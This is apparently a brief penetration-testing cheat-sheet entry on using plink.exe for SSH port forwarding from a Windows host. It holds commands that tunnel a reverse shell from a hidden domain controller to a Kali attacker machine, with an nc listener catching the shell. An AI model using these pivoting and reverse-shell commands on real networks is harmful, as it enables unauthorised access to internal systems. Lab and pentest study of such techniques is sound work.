




plink
Used to forward a port from a windows box that would normally only be seen localy.
1. Transfer plink.exe to the windows
2. cmd.exe /c echo y | plink.exe -ssh -l root -pw toortoor -R KaliIP:KaliPort:127.0.0.1:PortToForward KaliIp
3. verify port accessability
This useage is to forward a rev shell from a hidden DC that when executed reaches to a windows 10 machine over port 4444 and is then forwarded to 192.168.119.167 (kali) on port 4444 to handle the shell with nc -nlvp 4444
cmd /c echo y | plink.exe -N -L 0.0.0.0:PortRecieving:KaliIP:KaliPort user@kaliIP
